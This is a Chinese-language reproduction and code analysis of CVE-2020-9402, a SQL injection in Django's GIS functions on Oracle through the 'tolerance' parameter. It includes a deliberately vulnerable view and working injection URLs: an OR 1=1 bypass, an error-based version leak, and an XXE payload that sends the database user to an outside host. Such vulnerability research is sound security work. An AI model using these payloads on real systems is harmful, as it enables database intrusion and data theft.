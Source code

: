 （CVE-2020-9402）Django Geo sql注入
===================================

一、漏洞简介
------------

Django
1.11.29之前的1.11.x版本、2.2.11之前的2.2.x版本和3.0.4之前的3.0.x版本中存在SQL注入漏洞。攻击者可借助特制的SQL语句利用该漏洞查看、添加、修改或删除数据库中的信息。

二、漏洞影响
------------

Django
1.11.29之前的1.11.x版本、2.2.11之前的2.2.x版本和3.0.4之前的3.0.x版本中存在SQL注入漏洞

三、复现过程
------------

根据官网的修复https://github.com/django/django/commit/6695d29b1c1ce979725816295a26ecc64ae0e927\#diff-229e38ececbfc591f7a5e595bf5707c4，可以看到问题出在GIS的查询上面

![](./resource/(CVE-2020-9402)DjangoGeosql注入/media/rId24.png)

![](./resource/(CVE-2020-9402)DjangoGeosql注入/media/rId25.png)

官方只修复了这两个位置，可以发现基本上是对于`tolerance`参数进行判断是否为数字。那首先来了解一下GIS查询。

GIS查询API是一个地理位置的查询API，提供用户存储精确GPS的位置的数据模块，属于一个空间数据库，我们可以通过如下的经纬度信息

    pnt = GEOSGeometry('POINT(-96.876369 29.905320)', srid=4326)

    >>>SRID=4326;POINT (-96.876369 29.90532)

来获得一个具体的定位信息,通过如下的模块来构建一个基本的地理信息存储

    from django.contrib.gis.db import models
    class Names(models.Model):
        name = models.CharField(max_length=128)

        def __str__(self):
            return self.name

    class Interstate(Names):
        path = models.LineStringField()

后台存储的时候发出path的信息为json数据，例如

    {"type":"LineString","coordinates":[[-8167.236601807093,-3286.248045708844],[-7896.285624495958,-3324.9553281818644],[1083.8039092445451,-654.1528375435246]]}

![](./resource/(CVE-2020-9402)DjangoGeosql注入/media/rId26.png)

我们就获得了一个基本的地理位置数据,同理，通过构造一个聚合的查询方法

    def vuln(request):
        q = request.GET.get('q')
        qs=Interstate.objects.annotate(
                d=Distance(
                    Point(-0.0733675346842369, -0.0295208671625432, srid=4326),
                    Point(0.009735976166628611, -0.00587635491086091, srid=4326),
                    tolerance = q, # default 0.05
                ),
            ).filter(d=D(m=1)).values('name')

因为官网文档找不到如何构造Point查询，因此为了省事，直接写死了Point数值。。srid为空间参考的投影设置，默认值为4326。其中`tolerance`是对于oracle特殊存在的一个键值，其作用是基本你的容错率，详细的信息可以参考[oracle官方文档](https://docs.oracle.com/en/database/oracle/oracle-database/18/spatl/spatial-concepts.html#GUID-CE10AB14-D5EA-43BA-A647-DAC9EEF41EE6)。对应的查询语句为

    SELECT "APP_NAMEDMODEL"."NAME" FROM "APP_INTERSTATE" INNER JOIN "APP_NAMEDMODEL" ON ("APP_INTERSTATE"."NAMEDMODEL_PTR_ID" = "APP_NAMEDMODEL"."ID") WHERE SDO_GEOM.SDO_DISTANCE(SDO_GEOMETRY(POINT (-0.0733675346842369 -0.0295208671625432),4326), SDO_GEOMETRY(POINT (0.009735976166628611 -0.00587635491086091),4326), 0.05) =  1.0 FETCH FIRST 21 ROWS ONLY;

**0x02代码分析**首先从传入一个url

    http://127.0.0.1:8000/vuln/?q=20) = 1 OR 1=1 OR (1%2B1

从`annotate`聚合函数开始跟进，同普通的model函数查询一样，gis查询虽然拥有着单独的model模块，但依旧还是依靠着普通model中进行过滤和查询。从gis的model文件夹中的`__init__.py`文件中看

![](./resource/(CVE-2020-9402)DjangoGeosql注入/media/rId28.png)

主要的查询依然调用的是django最基本的db方法，而其中单独定义了`function`方法等一些对地理位置插叙独特的方法。程序运行到`/django/db/models/manager.py`文件中的`_get_queryset_methods`后，获取到tolerant参数之后便直接进入到gis模块中进行查询

![](./resource/(CVE-2020-9402)DjangoGeosql注入/media/rId29.png)

继而进入到`django/contrib/gis/measure.py`文件中的`MeasureBase`类中进行方法调用，那么后面的方法分析可以跳过，因此直接来到漏洞代码段。先来看gis
API中的functions函数，在as\_oracle方法这一段

    def as_oracle(self, compiler, connection, **extra_context):
        tol = self.extra.get('tolerance', self.tolerance)
        return self.as_sql(
            compiler, connection,
            template="%%(function)s(%%(expressions)s, %s)" % tol,
            **extra_context
        )

`tolerance`
从self.extra.get导入，该方法会搜索全局变量的值，如果该值不存在，则直接设置为0.05，并且将其直接传入到新的变量中。之后则不对tol进行任何处理直接拼接到template字符串中并且传入`as_sql`方法。那么官方对于as\_sql的文档是，此方法需要一个SQLCompiler对象，位于`django/db/models/sql/compiler.py`文件中。而我们只需要知道在该对象中有一个`compile()`方法，该方法可以返回一个包含SQL字符串的元祖，而SQLComiler对象中的query变量则是存储直接进行SQL查询语句的SQL命令。从而两个Point分别进入`compile`方法中进行拼接

![](./resource/(CVE-2020-9402)DjangoGeosql注入/media/rId30.png)

不知道为什么，用pycharm在as\_oracle下断点的时候，第一次到达SQLCompiler的时候，pycharm不会在as\_oracle函数中停下来，而是在第二次查询的时候才会停，但是经过测试确实是在进入SQLCompiler之前调用过as\_orcle函数，可能是pycharm没有正确识别重载函数吧。之后template构造模版也因此进入到`expression.py`中的as\_sql函数中进行字符串构造

![](./resource/(CVE-2020-9402)DjangoGeosql注入/media/rId31.png)

因此最后进入oracle的命令语句是

    SELECT "APP_NAMEDMODEL"."NAME" FROM "APP_INTERSTATE" INNER JOIN "APP_NAMEDMODEL" ON ("APP_INTERSTATE"."NAMEDMODEL_PTR_ID" = "APP_NAMEDMODEL"."ID") WHERE SDO_GEOM.SDO_DISTANCE(SDO_GEOMETRY(POINT (-0.0733675346842369 -0.0295208671625432),4326), SDO_GEOMETRY(POINT (0.009735976166628611 -0.00587635491086091),4326), 0.05) = 1 OR 1=1  OR (1+1) = 1.0 FETCH FIRST 21 ROWS ONLY;

![](./resource/(CVE-2020-9402)DjangoGeosql注入/media/rId32.png)

带入数据库中查询

![](./resource/(CVE-2020-9402)DjangoGeosql注入/media/rId33.png)

![](./resource/(CVE-2020-9402)DjangoGeosql注入/media/rId34.png)

官方修复的方法就是加入Value函数，判断传入的值是否为数字，否的话直接报错推出。那么第二个注入点就是`Union`了，建立Model

    class City(Names):
        point = models.PointField()  # 点模块

编辑传入的参数为

    {"type":"Point","coordinates":[13250.226757682816,68815.69380603009]}

view中设置查询

    from django.contrib.gis.db.models import Union
    def vuln2(request):
        q = request.GET.get('q')
        res = City.objects.aggregate(
                Union('point', tolerance=q),
        )
        return HttpResponse(res)

输入url

    http://127.0.0.1:8000/vuln2?q=0.05)))%2C%20(((1

首先看结果，得到的SQL查询语句为

    SELECT SDO_UTIL.TO_WKBGEOMETRY(SDO_AGGR_UNION(SDOAGGRTYPE("APP_CITY"."POINT",0.05))), (((1))) AS "POINT__UNION" FROM "APP_CITY";

![](./resource/(CVE-2020-9402)DjangoGeosql注入/media/rId35.png)

该aggregate查询方法是GIS查询特定的一种查询方法，为的是与地理查询的语句做适配,用法跟原模块的方法类似。因此跟进GIS模块中的聚合查询方法，位于`django/contrib/gis/db/models/aggregates.py`文件内的as\_oracle方法。

![](./resource/(CVE-2020-9402)DjangoGeosql注入/media/rId36.png)

同样tolerance没有做任何检查直接传入了template模版语句中，原理与上面annotate查询过程一致。利用有大致两个方法报错注入

    http://localhost:8000/test/?q=20) = 1 OR (select utl_inaddr.get_host_name((SELECT version FROM v%24instance)) from dual) is null%20 OR (1%2B1

![](./resource/(CVE-2020-9402)DjangoGeosql注入/media/rId37.png)

CVE-2014-6577因为Django自2.0以后支持的oracle版本为12以上，因此可以尝试oracle
XXE来进行SQL的注入。同时因为在SQL处理的过程中有三次利用%的模版跳转，因此需要在XMLpayload中的%替换为%%%%，payload为

    http://localhost:8000/test/?q=20) = 1 OR (select%20extractvalue(xmltype('%3C%3Fxml%20version%3D%221.0%22%20encoding%3D%22UTF-8%22%3F%3E%3C!DOCTYPE%20root%20%5B%20%3C!ENTITY%20%25%25%25%25%20remote%20SYSTEM%20%22http%3A%2F%2Fdocker.for.mac.host.internal%3A9000%2F'%7C%7C(SELECT%20user%20from%20dual)%7C%7C'%22%3E%20%25%25%25%25remote%3B%5D%3E')%2C'%2Fl')%20from%20dual)%20is%20not%20null OR (1%2B1

![](./resource/(CVE-2020-9402)DjangoGeosql注入/media/rId38.png)

命令执的话因为是docker起的oracle所以没有设置JAVA的环境，暂时也不能判定有没有，以后再研究看看。

参考链接
--------

> https://xz.aliyun.com/t/7403
